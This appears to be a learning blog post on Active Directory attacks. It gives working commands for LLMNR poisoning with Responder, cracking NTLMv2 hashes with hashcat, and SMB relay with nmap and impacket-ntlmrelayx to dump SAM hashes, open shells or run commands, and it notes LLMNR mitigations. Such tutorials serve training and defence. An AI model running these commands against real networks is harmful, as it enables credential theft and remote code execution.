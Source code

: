```yaml
---
title: Active Directory Attacks
date: 2023-10-18
categories: [Learning, Active Directory]
tags: [Active Directory, AD]
author: barabulkit
---
```


# LLMNR Poisoning (Responder)

## Attack

```shell
responder -I eth0 -wdv
```

![responder_hash](/assets/img/acd/responder_hash.png)

then we can crack the hash with hashcat

```shell
hashcat -m 5600 hash.txt rockyou.txt -O
```
5600 stands for module to crack NTLM2 hashes\

and will get cracked password
![cracked](/assets/img/acd/cracked.png)

## Mitigation

 - Disable LLMNR (in `Group Policy Editor` Local Computer Policy - Computer Configureation - Administrative Templates - Network - DNS Client - `Turn off Multicast name resolution`)
 - Disable NBT-NS (Network Connections - Network Adapter Properties = TCP/IPv4 Properties - Advanced tab - Wins tab - `Disable NetBIOS over TCP/IP`)

# SMB Relay

Instead of cracking hashes gathered with `Responder`, we can relay them to specific machines and potentially gain access

## Requirments

 - SMB signing disabled on target
 - Relayed user creds must be admin on machine

## Attack

First step is to identify targets without SMB signing

```shell
nmap --script=smb2-security-mode.nse -p445 192.168.1.0/24
```

![smb_signing](/assets/img/acd/smb_signing.png)

Then we need to turn off smb and http servers in responder
```shell
vim /usr/share/responder/Responder.conf
```
![turnoff](/assets/img/acd/turnoff_smb_http.png)

And then we launch responder and relayx again

There are ips of machines with `not required smb signing` in targets.txt, that we discovered with nmap on previous step
```shell
responder -I eth0 -wdv
impacket-ntlmrelayx -tf targets.txt -smb2support
```

and after receiveng connection we will get SAM hashes
![hashes](/assets/img/acd/hashes.png)

we can also use 
```
impacket-ntlmrelayx -tf targets.txt -smb2support -i
```
to get interactive shell, or
```
impacket-ntlmrelayx -tf targets.txt -smb2support -e test.exe
``` 
to execute test.exe on target machine, or
```
impacket-ntlmrelayx -tf targets.txt -smb2support -c "whoami"
```
to execute windows cmd command, or powershell oneliner with reverse tcp.